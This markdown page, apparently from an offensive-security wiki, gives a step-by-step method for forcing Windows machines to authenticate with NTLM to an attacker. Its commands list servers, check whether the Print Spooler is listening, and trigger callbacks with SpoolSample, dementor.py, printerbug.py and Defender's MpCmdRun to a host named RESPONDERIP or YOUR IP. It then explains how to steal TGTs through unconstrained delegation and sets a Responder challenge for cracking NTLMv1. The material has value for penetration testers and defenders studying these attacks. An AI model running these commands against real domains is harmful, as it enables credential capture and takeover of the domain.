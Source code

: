 # Force NTLM Privileged Authentication

## Spooler Service Abuse

If the _**Print Spooler**_ service is **enabled,** you can use some already known AD credentials to **request** to the Domain Controller’s print server an **update** on new print jobs and just tell it to **send the notification to some system**.\
Note when printer send the notification to an arbitrary systems, it needs to **authenticate against** that **system**. Therefore, an attacker can make the _**Print Spooler**_ service authenticate against an arbitrary system, and the service will **use the computer account** in this authentication.

### Finding Windows Servers on the domain

Using PowerShell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

### Finding Spooler services listening

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), see if the Spooler Service is listening:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

### Ask the service to authenticate against an arbitrary host

You can compile[ **SpoolSample from here**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**

```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```

or use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)  or [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) if you're on Linux

```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

### Combining with Unconstrained Delegation

If an attacker has already compromised a computer with [Unconstrained Delegation](unconstrained-delegation.md), the attacker could **make the printer authenticate against this computer**. Due to the unconstrained delegation, the **TGT** of the **computer account of the printer** will be **saved in** the **memory** of the computer with unconstrained delegation. As the attacker has already compromised this host, he will be able to **retrieve this ticket** and abuse it ([Pass the Ticket](pass-the-ticket.md)).

## Inside Windows

If you are already inside the Windows machine you can force Windows to connect to a server using privileged accounts with:

### Defender MpCmdRun

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```

## Cracking NTLMv1

If you can capture [NTLMv1 challenges read here how to crack them](../ntlm/#ntlmv1-attack).\
_Remember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"_

